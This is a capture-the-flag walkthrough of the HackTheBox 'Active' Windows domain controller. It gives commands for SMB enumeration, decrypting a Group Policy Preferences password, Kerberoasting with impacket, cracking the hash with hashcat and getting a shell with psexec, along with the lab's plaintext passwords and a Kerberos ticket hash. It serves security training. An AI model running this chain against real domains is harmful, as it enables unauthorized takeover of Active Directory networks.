


## Reconnaissance

### nmap 
```
nmap -sC -sV -oN active_light 10.129.228.128
```


> Find the following service 
	- Kerberos
	- SMB
	- LDAP
	- MSRPC
> I think it's a windows system and it might be a AD server

### nslookup check hostname  (Information from ippsec)

```
nslookup 
server 10.129.232.168  # server <machine ip address>
127.0.0.1
10.129.232.168
```

> dnsrecon

```
dnsrecon -d 10.129.232.168 -r 10.0.0.0/8
```

### SMB enumeration by nmap 

> Find useful nmap script 

```
locate -r '\.nse$'
```


```
locate -r '\.nse$' | xargs grep categories
```


```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version' | grep smb 
```


```
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb 
```


> Scan 

```
nmap --script safe -p 445 10.129.232.168
```






## Exploit 

> Since here exist SMB and LDAP, I tried to use 'crackmapexec' to access smb
```
crackmapexec smb 10.129.228.218 -u "" -p ""
```


> smbclient to enumerate the target

```
smbclient -L \\10.129.228.128
```


> Find some directory, enumerate them


>  Find only Replication can be accessed
>  Keep enumerating this directory, I find a group policy file 
> Using smbmap to enumerate Replications

```
smbmap -r Replication -H 10.129.232.171 --depth 10
```


> About Groups .xml.
> It's a group policy file with local account information is stored into.
> If I want to push out local admin before Windows 2012,
> manager will generally use group policy.
> But Microsoft has removed that maybe after 2012.. (it should be check after this box.)

```
Groups.xml
```


> Then let's dig into this file.
> smbmap to download it 

```
smbmap -r Replication -H 10.129.232.171 --depth 10 -A Groups.xml -q
```


> Check this file 
> There is a credential store in it.

```
active.htb\SVC_TGS : edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```


> Using the following step to crack it.

```
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

> Install gpp-decrypt 

```
## search 
apt search gpp-decrypt
## Install
apt install gpp-decrypt
```


> Get clear password text 

```
svc_tgs / GPPstillStandingStrong2k18
```

#### How to use smbclient to download those file 

```
smbclient //10.129.232.171/Replication
recurse ON
prompt OFF
mget *
```

> With this password, let enum AD User by impacket tool (GetADUsers.py)

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.228.128
```


> Since there is kerberos service run on this system.
> So let's try to retrieve the kerberos hash

```
impacket-GetUserSPNs -request -dc-ip 10.129.228.219 active.htb/svc_tgs
```


## Privilege Escalation 

> Record the hash value for administrator 
```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$a54959a0f34901c7331b42a989ba72c0$e856aa7d3b3464269baf33defc1e1ce854a0d471f56826e5574a35e432dce4b6464b5710b6536e04705f953900921fc3230a85fa5a66b0575c0677b7301ddf46d17cba5b491e494e0c2d4f1271f07e6c0aa6d3bf47d7e647b8211e01f03ccfb1b837d5e73880a21d462976d4996800e93a90de7ced78404d4ba1908c09439262d9328c2b28455e758b30ce40f31332a595ac68ceb1f80c16c710991f0dde82bc4f293880a6a738cb3f76f35a1416c503fbf229d4a55a0d2c6869c9aa2d2697d5fcf03f506f755e359471aed249aab03c7039c44d3b70f80ea413f0b1c333ac42bafb523a6aa3d2647eab39e5871ad7a0931e4eca16685ed3cce9538d028d76ed980813954d4508320e3b85a5a1f14b2ef65cc4bb50819bb934ef5eacb9a1bbe6aa39fff9f5b462a8d3554ad02099d91cbc00e92b24fc2d42d11e3a8a36c7198e960ca863eba6bd2c16ab5866dbc84931020c4e01ca1f433af4ee534fcea44671fdfb5d6b7e6e23326e7752274c5cf49bea97a42fea50d82ab8716e082a4fc076206ab395b1aadda0a3e92b971dd064914201f6f054e87a1e5859d9c5d4515d48bc1bd47e0690cba4d995f1c9fa88f11381b384346d6898eabb97e76783db07716665d748bd166f63c40f689b5959a540bd547c21f88a3c72ce9010d5c285bc606c484bdca74676a87be5a3d5c2a04058041b0c50724e34ac2b79f06f2f09f39022db487887ab6dbad5eea552d0e859eebdad3f7b532a63f2fab9a3d3c45aa1fec0ceec7fdeda359f2ff6f002a853e1f4062e873cc989fdbb99db0bfb2e53b4b7c8eff3e57c819e1021e731a2fd2cafbe5a5d54f6150332eb721dffd326be689380276fe12ad1fde6fd7344b79b201f0a14f4f758a3ec0103ef5397b29942b9e4f8d925097313097d1cbf2cf124c20709a964a6228a5f1c5efef4ce305bef2269bf72ee602d9ed10ec8b48c1828b61cc073a08f6629a1b8b4d7a26406929c540006a80171cfff0e31e6c940232565ed79a3a20dce9bf5dc3d7171b226ba1abdf32424f35b586c8d75e44d9b30c985e09e07d109e2065f474147e3e45853e6d2a8734a04a22e8ec5bf3901a2ecaf580a19c89fc9b3234604cc5f68c89b0669b6837a0bce7d76d2f70d449e5decf1cf0895807e34bb9b63d33da8fbbbbe07b813fc17dde5afdb6bb41029c2475a3af7c64c3f7088496dd3f71ed691372894bc127254f7f6c2895fee73028b9d2f2d60a1e5dd92395be86ca12c93be
```


> Hashcat to crack kerberos hashes 

```
hashcat -m 13100 hash.kerberos /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


> Get administrator password 

```
Ticketmaster1968
```


>  Exploit to target by psexec 

```
psexec.py active.htb/administrator@10.129.228.218
```


> Confirm current user permission


> Get user flag


>  Get root flag


## Tools 

- nmap (with .nse scan)
### SMB

- smbmap
- smbclient 
### AD

- Impacket-GetADUser
- Impacket-GetUserSPNs
## Reference 

### SMB
- [PWK Notes: SMB Enumeration Checklist [Updated]](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)
- [smbmap -R doesn’t list all dirs (missing Groups)](https://forum.hackthebox.com/t/smbmap-r-doesnt-list-all-dirs-missing-groups/3647/3)
- [139,445 - Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
### LDAP
- [389, 636, 3268, 3269 - Pentesting LDAP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
### Kerberoast 
- [Kerberos Pentesting](https://exploit-notes.hdks.org/exploit/windows/active-directory/kerberos-pentesting/)
- [AS-REP Roasting](https://exploit-notes.hdks.org/exploit/windows/active-directory/as-rep-roasting/)
- [Kerberoasting Attack](https://exploit-notes.hdks.org/exploit/windows/active-directory/kerberoasting-attack/)
- [Kerberos Attacks](https://www.prosec-networks.com/en/blog/kerberos-attacks/)
### RPClient
- [rpcclient enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration)
### AD
- [Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

###### tags: `HackTheBox` `ActiveDirectory`